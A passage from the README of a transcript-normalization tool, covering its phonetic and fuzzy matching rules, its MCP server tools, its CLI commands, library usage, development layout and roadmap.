    aliases: [sass]
    category: acronym
    never: [sauce]
settings:
  minConfidence: 0.82
  phonetic: true
  fuzzy: true
  skipCode: true
  protectedWords: []
```

Per term: `canonical`, `aliases`, optional `phonetic`, `category` (`brand`, `person`, `product`, `acronym`, `identifier`, `place`, `other`), `notes`, `never`, `caseSensitive`. The tool also records `source`, `createdAt` and `hits`.

### Settings

| Key | Default | Meaning |
|---|---|---|
| `minConfidence` | `0.82` | Minimum confidence a phonetic or fuzzy match needs before it is applied. Exact aliases are always 1.0 |
| `phonetic` | `true` | Enable double metaphone matching |
| `fuzzy` | `true` | Enable edit-distance matching |
| `protectedWords` | `[]` | Words no term may ever replace. Merged with the built-in stoplist |
| `skipCode` | `true` | Leave `code spans`, fenced blocks, URLs, emails and paths alone |

### `never` per term

`never` is a per-term list of words that must not be rewritten to that canonical even when they sound alike. It is how `SaaS` avoids eating every "sauce" in your prompt while still catching "sass".

## How matching works

Matching runs in three tiers over token windows. Exact hits are resolved first (longest span, earliest start); phonetic and fuzzy hits only get the spans left over, and matches never overlap.

1. **Exact alias.** Word-boundary, multi-word, case-insensitive and diacritic-insensitive (`bjorn halvorsen` hits `Bjørn Halvorsen`) unless the term sets `caseSensitive`. Confidence 1.0.
2. **Phonetic.** Double metaphone of a token window equals that of an alias or the canonical. Confidence about 0.9, scaled by length similarity.
3. **Fuzzy.** Normalized Damerau-Levenshtein (adjacent-transposition-aware) similarity at or above `minConfidence`. Confidence equals the similarity.

Guards, checked before any replacement:

- The built-in stoplist of about 3400 common English words in their usual inflections, plus `settings.protectedWords`, plus each term's `never`.
- Spans already equal to the canonical. They are also claimed, so no other term can rewrite a word inside `Tadeusz Wróblewski` or `Wispr Flow's`.
- Text inside code spans, fences, URLs, emails and paths when `skipCode` is on, and names glued to an identifier (`@ashlr/lexicon`, `ashlr_core`, `#ashlr`) in every mode.
- Tokens shorter than three characters, and metaphone keys shorter than three characters (`Zod`, `SSO`, `Neon`, `SaaS`), are only ever matched by exact alias. Spelled-out aliases such as `j w t` never get a phonetic key.
- A phonetic or fuzzy window of two or more words never starts or ends on a function word (`to`, `is`, `a`, `the`), so `normalizeTranscript to` cannot swallow the `to`.
- A lone lowercase word (`prism`, `email`, `gram`) matched by sound or spelling against a term that has explicit aliases must score at least 0.88, and a single-token phonetic candidate must also resemble the alias in spelling.
- A trailing possessive is kept: `ashler ai's` becomes `Ashlr.AI's`.

**Explicit aliases always beat the stoplist.** If you list `off` as an alias for `auth`, "off" is rewritten. The stoplist exists to stop phonetic and fuzzy guessing, not to override what you wrote down. Use `never` if a term needs its own exceptions.

Every replacement carries `reason` (`alias`, `phonetic`, `fuzzy`) and `confidence`. `--dry-run` (CLI and MCP) returns the candidates without applying them.

```bash
lexicon normalize --diff "deploy to head sner with cooper netties and kubernetees"
# stderr:
#   "head sner" -> "Hetzner" (alias, 1.00)
#   "cooper netties" -> "Kubernetes" (phonetic, 0.85)
#   "kubernetees" -> "Kubernetes" (fuzzy, 0.91)
# stdout:
#   deploy to Hetzner with Kubernetes and Kubernetes
```

`--diff` goes to stderr so stdout stays pipeable. `--min-confidence 0.9`, `--no-phonetic` and `--no-fuzzy` override the file settings for one run. `normalize` always exits 0; if the lexicon fails to load it prints a warning to stderr and passes the text through unchanged.

## MCP tools

Server name: `lexicon`. Transport: stdio. Bin: `lexicon-mcp` (or `lexicon mcp`, or `node plugin/mcp-server.mjs`). The lexicon is re-read on every call, so edits to the file take effect immediately. Seventeen tools, two resources, two prompts.

| Tool | Arguments | Returns |
|---|---|---|
| `normalize_transcript` | `text`, `dryRun?`, `minConfidence?` | `output`, `changed`, `replacements[]`, `summary`. Also bumps each term's `hits` counter |
| `add_term` | `canonical`, `aliases?`, `phonetic?`, `category?`, `notes?`, `never?`, `scope?` | The stored term, its file path and `created`. Aliases are auto-suggested when omitted |
| `remove_term` | `canonical`, `scope?` | Whether it existed |
| `list_terms` | `query?`, `category?` | Matching terms, counts per file, the paths in use, and a note when a project file was skipped as untrusted |
| `harvest_repo` | `path?`, `limit?`, `minCount?`, `add?` | Candidates. `add: true` writes them to that repo's project lexicon |
| `export_lexicon` | `format`, `categories?`, `limit?` | The export as text |
| `learn_correction` | `heard`, `meant`, `scope?` | The term the alias was added to, `created`, `aliasAdded`, a one-line summary |
| `suggest_canonical` | `heard` | Up to three existing terms closest to the garbled word, with confidence, for "did you mean X?" |
| `lexicon_stats` | none | Term and alias counts, total hits, top ten terms, never-hit terms, per-file breakdown |
| `lexicon_doctor` | none | The `lexicon doctor` checks as data: `{ ok, checks: [{ level, message }], paths, versions }` |
| `install_client` | `client`, `apply?`, `scope?` | Preview (default) or apply the MCP config for `claude`, `codex`, `cursor`, `windsurf`, `gemini`, `vscode` or `claude-desktop` |
| `trust_project` | `action` (`status`, `trust`, `untrust`), `path?` | Trust state, or a sanitized preview of the file's canonicals before pinning it. The agent shows the preview and asks first |
| `import_dictionary` | `path?` or `content?`, `format?`, `scope?`, `dryRun?` | Import a Wispr, Superwhisper, macOS, espanso, text, CSV or JSON dictionary |
| `suggest_terms` | `cwd?`, `limit?` | Proposed aliases, terms, never-words and stale terms from voice history, usage and the repo |
| `apply_suggestion` | `suggestion`, `scope?` | Applies one suggestion from `suggest_terms`, passed back as received |
| `setup_lexicon` | `company?`, `person?`, `clients?`, `serve?`, `apply?` | Without `apply` returns a plan computed by a dry run (what it would seed and harvest, the clients it detected, whether it would install the login service) and writes nothing. With `apply: true` runs `lexicon setup` non-interactively for exactly the `clients` given (omitted = none) and installs the local API only with `serve: true`; returns the `SetupSummary` |
| `serve_status` | none | Whether the local API on `127.0.0.1:41733` is up, with its version and term count |

| Resource | Type | Content |
|---|---|---|
| `lexicon://me` | `text/markdown` | The `claude-md` export of the merged lexicon. What an agent should read at session start. Adds one line naming a skipped untrusted project file |
| `lexicon://json` | `application/json` | The merged lexicon as JSON |

| Prompt | Purpose |
|---|---|
| `voice-context` | The `claude-md` export plus an instruction to apply the canonical spellings for the rest of the session |
| `onboard` | Walks the agent through first-run setup: ask for company, product and teammate spellings, which clients are in use, then call `setup_lexicon` and `add_term` |

Project-scope writes (`add_term`, `learn_correction`, `apply_suggestion`, `import_dictionary`, `harvest_repo` with `add: true`) go through the same [trust gate](#security-and-trust) as the CLI and return an error instead of touching an unreviewed `.lexicon.yaml`. `setup_lexicon`, `install_client` and `trust_project` preview by default and only write when the agent passes `apply: true` or `action: 'trust'` after showing you the preview.

## CLI reference

Global option: `--cwd <dir>` sets the directory used to find the project `.lexicon.yaml`. The same 25 commands with full `--help` output are generated into [docs/CLI.md](docs/CLI.md).

| Command | Does |
|---|---|
| `lexicon init` | Create the global lexicon file if missing. `--project` creates `.lexicon.yaml` at the git root (or cwd) instead |
| `lexicon add <canonical> [aliases...]` | Add a term or merge aliases into an existing one. `--phonetic <hint>`, `--category <c>`, `--notes <text>`, `--never <word...>`, `--project`, `--suggest` (append auto-generated misspellings; automatic when no aliases are given), `-i` / `--interactive` (confirm the suggested aliases as a checklist, then ask for phonetic hint and category; needs a terminal) |
| `lexicon remove <canonical>` (alias `rm`) | Remove a term, project lexicon first then global. `--project` looks only in the project file |
| `lexicon list` (alias `ls`) | List the merged lexicon. `--json`, `--category <c>`, `--query <text>` |
| `lexicon normalize [text...]` | Correct text from arguments or stdin. `--json`, `--diff` (to stderr), `--dry-run`, `--min-confidence <n>`, `--no-phonetic`, `--no-fuzzy`, `--include-untrusted`. Always exits 0 |
| `lexicon harvest [path]` | Scan a repo for candidate terms. `--limit <n>`, `--min-count <n>`, `--add` (on a terminal this walks candidates one by one), `--yes` (with `--add`: add every candidate without asking), `-i` / `--interactive` (the walkthrough without `--add`; needs a terminal), `--json` |
| `lexicon export [format]` | Export for another tool; no format lists them. `--out <file>`, `--category <c...>`, `--limit <n>` |
| `lexicon path` | Print the resolved global and project file paths |
| `lexicon doctor` | Check lexicon files, term conflicts (duplicates across scopes, ambiguous aliases, aliases that are common words), the Claude Code integration (plugin or hooks, `claude mcp list`), the clipboard backend and the voice tools (whisper-cli, ffmpeg, model). Lines are `✓` ok, `!` warning, `✗` failure, `·` info. Exits 1 if anything failed |
| `lexicon mcp` | Start the stdio MCP server (same as `lexicon-mcp`) |
| `lexicon hook` | Run the Claude Code hook (JSON in, JSON out; dispatches on `hook_event_name`) |
| `lexicon daemon` | Clipboard watcher (macOS, Linux, Windows). `--once` (correct once and exit), `--paste` (with `--once`, send Cmd+V on macOS; needs Accessibility), `--interval <ms>`, `--dry-run`, `--quiet`, `--backend <name>`, `--which` |
| `lexicon install-claude` | Print the Claude Code MCP + hook setup. `--apply` performs it, `--scope user\|project` picks the MCP registration scope |
| `lexicon import <file> [format]` | Import a dictation app's dictionary (`-` for stdin; format auto-detected). `--format <f>`, `--project`, `--dry-run`, `--source <s>` (default `import`), `--category <c>` (applied to terms that lack one), `--json` |
| `lexicon install [client]` | Print (or with `--apply`, merge) the MCP config for `claude`, `codex`, `cursor`, `windsurf`, `gemini`, `claude-desktop` or `vscode`; no client prints the generic snippet. `--project` / `--scope project` targets the repo-level file, `--home <dir>` overrides the home directory |
| `lexicon trust [path]` | Print a preview of the project `.lexicon.yaml` and pin its sha256 as trusted. `--list` shows trusted files and whether they still match |
| `lexicon untrust [path]` | Revoke approval for a project `.lexicon.yaml` |
| `lexicon learn [words...]` | Record a correction: `<heard> <meant>` or a sentence like `"Ashler -> Ashlr.AI"`. `--from <sentence>`, `--project`, `--json` |
| `lexicon stats` | Term and alias counts, most-used terms and terms that never fired. `--json` |
| `lexicon serve` | Local HTTP API on `http://127.0.0.1:41733` with a bearer token. `--port <n>` (0 picks a free port), `--host <host>` (anything but loopback is exposed and warns), `--json`, `--quiet`, `--show` (URL and token), `--status`, `--install` / `--uninstall` (launchd on macOS, systemd user unit on Linux, Scheduled Task instructions on Windows) |
| `lexicon voice` | Local dictation: record with ffmpeg, transcribe with whisper.cpp, correct with the lexicon. `--toggle` (hotkey mode: start, then stop and transcribe), `--status`, `--list-devices`, `--seconds <n>`, `--device <name\|index>`, `--model <name\|path>` (default `base.en`, auto-downloaded), `--lang <code>`, `--translate`, `--no-prompt`, `--no-history`, `--copy`, `--paste` (macOS), `--json`, `--quiet`. Exits 2 when a tool is missing, 3 when nothing was heard |
| `lexicon setup` | Guided first run: seed the lexicon, harvest the repo, install into detected agents, install the local API, export for your dictation app. `-y` / `--yes` (every default; the login service is then installed only with `--serve`), `--dry-run` (detect and print the plan, write nothing), `--clients <list\|none>`, `--company <name>`, `--person <name>`, `--phonetic <hint>`, `--app wispr\|superwhisper\|macos\|none`, `--export-dir <dir>`, `--no-harvest`, `--serve` / `--no-serve`, `--reseed`, `--home <dir>`, `--json` |
| `lexicon suggest` | Suggest aliases, new terms, never-words and stale terms from voice history and usage. `--json`, `--apply` (walk them: y/n/a/q), `--yes` (apply everything at or above 0.80 confidence), `--harvest [dir]`, `--limit <n>` (default 20), `--project` |
| `lexicon review` | Walk existing terms and `k` keep, `d` delete, `e` edit aliases, `p` set phonetic, `n` set notes, `q` quit; the file is written once at the end. `--never-hit`, `--project` / `--global` (global by default), `--category <c>`. Needs a terminal |
| `lexicon edit` | Open the global lexicon (`--project` for `.lexicon.yaml`) in `$VISUAL` / `$EDITOR`, then re-parse it and report schema errors with the path (the file is never rewritten). Without an editor variable it prints the path. A trusted project file is re-pinned after the edit |

## Use as a library

Everything the CLI, MCP server and hooks do is available as plain functions. `normalize()` is pure (text + lexicon in, result out); the store functions read and write the same YAML files the CLI uses.

```bash
npm i @ashlr/lexicon
```

```ts
import { normalize, loadLexicon, addTerm, harvestRepo, exportLexicon } from '@ashlr/lexicon';

// Global ~/.config/lexicon/lexicon.yaml (or $LEXICON_PATH) merged with a trusted
// project .lexicon.yaml found from cwd.
const { merged: lexicon } = await loadLexicon({ cwd: process.cwd() });

const result = normalize('ask ashler to deploy pie dantic', lexicon);
// {
//   input: 'ask ashler to deploy pie dantic',
//   output: 'ask Ashlr.AI to deploy Pydantic',
//   changed: true,
//   replacements: [
//     { start: 4, end: 10, original: 'ashler', replacement: 'Ashlr.AI',
//       canonical: 'Ashlr.AI', reason: 'alias', confidence: 1 },
//     { start: 21, end: 31, original: 'pie dantic', replacement: 'Pydantic',
//       canonical: 'Pydantic', reason: 'alias', confidence: 1 },
//   ],
// }

// Teach it a term (merges aliases into an existing canonical; scope: 'project' writes .lexicon.yaml).
await addTerm({ canonical: 'Deepgram', aliases: ['deep gram'], category: 'product' });

// Mine a codebase for names worth adding, then render the lexicon for another tool.
const candidates = await harvestRepo('/path/to/repo', { limit: 20 });
const whisperPrompt = exportLexicon(lexicon, 'whisper-prompt');
```

Embedding it in your own STT pipeline, between the transcription API and the model:

```ts
import { loadLexicon, normalize, exportLexicon } from '@ashlr/lexicon';

const { merged: lexicon } = await loadLexicon();
const prompt = exportLexicon(lexicon, 'whisper-prompt');          // bias the STT model first
const heard = await transcribe(audio, { prompt });                  // Whisper / Deepgram / etc.
const fixed = normalize(heard, lexicon);                            // then fix what it still got wrong
if (fixed.changed) console.error(fixed.replacements.map((r) => `${r.original} -> ${r.replacement}`));
await llm.send(fixed.output);
```

Other useful exports: `parseLexicon(raw)` validates an object you loaded yourself, `diffSummary(result)` renders the replacement list, `suggestAliases(canonical)` guesses likely misspellings, `importLexicon(content, format)` parses another tool's dictionary, `parseCorrection(text)` and `learnCorrection({ heard, meant })` handle corrections, `suggestCanonicalFor(heard, lexicon)` finds the closest terms, `suggestTerms(input)` mines voice history, `computeStats(loaded)` reports usage, and `EXPORT_FORMATS` / `IMPORT_FORMATS` list what `exportLexicon` / `importLexicon` accept. Types (`Lexicon`, `Term`, `NormalizeResult`, `HarvestCandidate`, `TermSuggestion`, ...) are exported too. The local API is embeddable as `createServer()` from `src/serve/server.ts`. Runnable versions of both snippets: [examples/library-usage.ts](examples/library-usage.ts) and [examples/stt-pipeline.ts](examples/stt-pipeline.ts) (`node --import tsx examples/<file>`).

## Development

```bash
npm install
npm run build           # tsc -> dist/
npm run build:bundle    # esbuild -> plugin/mcp-server.mjs + plugin/hook.mjs (commit these)
npm run check:bundle    # rebuild and fail if plugin/ differs from the checked-in files (CI runs this)
npm test                # unit + integration + e2e (vitest)
npm run test:e2e        # only tests/e2e.test.ts: the real CLI, hook and MCP server as subprocesses
npm run bench           # synthetic accuracy benchmark (see bench/README.md); docs/BENCHMARK.md records the report
npm run bench:audio     # real-audio benchmark through whisper.cpp
npm run docs:cli        # regenerate docs/CLI.md from every command's --help
npm run build:extension # extension/dist, extension/dist-firefox and the two zips
npm run build:site      # the demo site (site/dist), including install.sh
```

Rebuild the plugin bundles before committing any change under `src/core`, `src/mcp`, `src/hooks` or `src/cli` (the agent-native tools import CLI handlers); CI rejects a stale `plugin/`. The e2e suite runs from source (`node --import tsx`) against a temp HOME, so it needs no build and never touches your real lexicon. Set `LEXICON_SKIP_E2E=1` to skip it.

Manual stdio check:

```bash
node dist/mcp/server.js
```

Interactive check with the MCP inspector:

```bash
npx @modelcontextprotocol/inspector node dist/mcp/server.js
```

Project layout:

```text
src/core/        the library: types, schema, store, trust, matcher, stoplist, normalize, suggest, suggestTerms, harvest, learn, stats, exporters/, importers/
src/cli/         the `lexicon` command (commander wiring in index.ts, handlers in commands.ts and cmd-*.ts, prompt.ts for interactive input)
src/mcp/         the stdio MCP server (`lexicon-mcp`)
src/hooks/       the Claude Code SessionStart and UserPromptSubmit hook
src/daemon/      the clipboard watcher and its per-platform backends
src/serve/       the local HTTP API (`lexicon serve`)
src/voice/       ffmpeg + whisper.cpp push-to-talk (`lexicon voice`)
plugin/          committed esbuild bundles of the MCP server and hook that the plugin runs
extension/       the browser extension (Manifest V3; built into extension/dist and dist-firefox)
apps/macos/      LexiconBar, the SwiftPM menu bar app
packaging/       the Homebrew formula
site/            the demo site published to GitHub Pages, plus install.sh
tests/           vitest; one file per module, e2e.test.ts for whole-journey subprocess tests, fixtures/fake-repo for harvest
bench/           accuracy benchmark corpora and runners (synthetic and audio)
examples/        example lexicon, client configs, library and STT pipeline examples
scripts/         build-bundle, build-extension, build-macos-app, build-site, gen-cli-docs, install.sh
docs/            ARCHITECTURE, RESEARCH, BENCHMARK, QUICKSTART, per-feature guides and the generated CLI reference
skills/ commands/ hooks/ .claude-plugin/ .mcp.json   what makes the repo a Claude Code plugin
```

Module layout and design decisions are in [docs/ARCHITECTURE.md](docs/ARCHITECTURE.md); the per-module API is in [CONTRACT.md](CONTRACT.md). See [CONTRIBUTING.md](CONTRIBUTING.md) to add an exporter, importer, harvester or journey test. Releases are described in [docs/RELEASING.md](docs/RELEASING.md).

## Roadmap and non-goals

Non-goals:

- Not a dictation app. Bring your own.
- No hosted accounts, no sync service. It is a file.

Roadmap:

- Chrome Web Store and Firefox AMO listings for the extension. Today it installs from the release zip.
- Notarized macOS app. LexiconBar is ad-hoc signed, so the first launch needs right-click and Open.
- Windows and Linux tray app with the same push-to-talk and fix-clipboard actions.
- Non-English phonetics. Double metaphone is tuned for English; names in other languages fall back to fuzzy matching.
- Real-microphone benchmark. The audio corpus is macOS text-to-speech read into whisper.cpp, not recorded speech.

Kill criteria, from the research memo: if Claude Code ships first-party custom vocabulary for `/voice`, the hook and MCP paths lose most of their value for the primary user (the file format and exports may still be worth keeping). If a system-wide dictation app captures agent voice input and its dictionary follows the user everywhere, the portable layer is redundant.

## License

MIT. Copyright 2026 Ashlr.AI.
